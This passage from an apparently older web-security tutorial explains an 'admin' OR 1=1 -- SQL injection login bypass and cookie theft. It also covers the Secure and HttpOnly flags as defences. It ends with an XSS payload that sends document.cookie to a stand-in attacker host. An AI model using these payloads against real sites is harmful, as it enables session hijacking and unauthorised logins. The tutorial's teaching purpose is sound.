 If we look closely at the SQL statement, the statement will only get executed till the following line as all the other characters are commented out because of the dashes "--".

<pre>SELECT * FROM USER_TABLE WHERE USERNAME = 'admin' OR 1=1 --</pre>

Hence the SQL statement selects the user admin if a user with the username "admin" is available in its database otherwise it just returns the first user in the database because the BOOL value of the statement evaluates to TRUE. Hence there was no use of any password in this case. Input validation must be done in order to protect from SQL Injection. Note that SQL Injection in itself is a very massive topic and the case discussed in this article in one of the most simplest forms of SQL Injection. Also note that it is not necessary that the credentials are always validated in the backend with a SQL statement, in which case SQL Injection will not work.

**b) Cookie Stealing**-Cookies are another source of valuable information that is stored on the user's computer. Cookies can include valuable information about the user, which could be the user/pass in encoded or encrypted format, the session ID value etc. As far as web authentication is concerned, cookies can be a valuable resource in maintaining the state between the user and the website. A good example of this is a web application which sets a cookie on the user's system once the user logs in successfully. For all the subsequent requests the user doesn't have to send his credentials now as long as the cookie doesn't expire. However this could be a security issue. The problem is that in an open unencrypted network, it is very easy to capture the cookie's of various users using packet sniffing tools like Wireshark etc. Once the attacker has the cookie, he can use that cookie to impersonate the user. To protect the victim from getting compromised because of these risks, there are different flags that can be set on the server side for issuing cookies to the user.

**Secure Flag**- This flag ensures that the cookie is never transmitted over an unencrypted channel and should always be passed from the client to the server over a secure channel (HTTPS). This flag is very useful as it protects the victim from eavesdropping attacks.

**Http-Only Flag**- This feature ensures that the Cookie is not accessible from any non-Http Api's. This prevents the victim from cookie stealing attacks where the attacker can use javascript to directly access the sessions cookies. Note that this method is not completely foolproof but provides a decent level of security and hence should be used whenever needed.

Note that not all the values in a cookie are related to maintaining the user's session with the website. Some of them could just be used to monitor the user's activities or for some other reasons. Let's do a quick dissection of the cookies set on our system while using Facebook. I will be using the Firefox Add-on _Cookie Manager_ to view the cookies set by Facebook. It is a very handy add-on for monitoring and changing cookies.

![Screen Shot 2012 01 15 At 5.58.25 PM]({{site.baseurl}}/images/posts/webauth2//Screen Shot 2012-01-15 at 5.58.25 PM.png)

As we can see there are a number of name-value pairs in the cookies stored by facebook on our system. Also, not all of them are related to the user's session. In my case i modified the cookie value with the name "s" and found out that i was still able to browse through facebook, hence the session was still maintained. But when i modified the cookie value with the name "c_user", and tried to surf pages across facebook i found out that i was logged out, i.e the session state was broken and i had to reenter my credentials.

There could be a number of ways for stealing cookies. In this case i will be discussing the technique of stealing cookies by exploiting an XSS vulnerability in the application. As we know that XSS allows us to execute a script on the victim's browser. Let's say we execute the following script on the victim machine.

<xmp><script>document.location='http://evilsite.com?cookie=<script>document.cookie</script>'</script></xmp>
